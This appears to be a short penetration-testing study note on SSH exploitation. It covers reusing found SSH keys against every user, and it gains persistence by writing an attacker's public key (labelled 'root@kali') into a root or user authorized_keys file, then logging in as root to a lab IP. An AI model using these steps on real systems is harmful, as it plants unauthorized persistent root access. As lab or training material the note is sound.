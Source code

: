 ```yaml
---
tags:
  - Exploitation
  - KnownExploits
  - Applications
---
```


# Table of Contents

1. See general SSH [[2. Enumeration/TCP/22. Secure Shell (SSH)/1. Guide|Guide]] 
2. If you find a weak public key, see [[RSA Decrypt]]
# Access to a Key

If you find an SSH key, attempt to use that key to login to the related user and all possible users.
# Key Write Access

#SecuringRoot 

Make new keys if you have root write access

1. Create new ssh keys using ssh-keygen on your machine
2. Copy the public key from `id_rsa.pub` and create a new file `authorized_keys` in `/root/.ssh/`
3. Get a SSH connection on your machine: `ssh -i id_rsa root@10.10.10.220`


```
$ cd /home/user
$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDGEUzu7cGthWtPNXM5/rAvPBywgyh68AEpSyUBXm24kByXu+GhEmvAiVlkAhasBgTjiCbpup3dmzz54ADlo4T2jUWoVVEDOw82eKQ6EoqpYnHGVmpDmJ1n7+eCvb3ut0bl5VOnTkhYSWS8G9V6V+E/VmDun63HoHCHzvtBlbN/ZmhRKxdwNFSYN/NswU8MFK+MVXxa/FJUxrOJVAnefXQdfDBxIt4j/qqMr68u9lQfqOX5shmS0M55lFNAY2mR6INBQtT6AnAWremPCHdUHxU3eSvzUcItaamecSPTfDgMQDQkxXrrsKQLkJeCKZ/1EwDBXIF3RGCeNGq0hCYHSF8d root@kali" > .ssh/authorized_keys$
```

# Running Internally

It is possible to SSH internally if there is SSH running already on the victim, `ps aux` to privilege escalation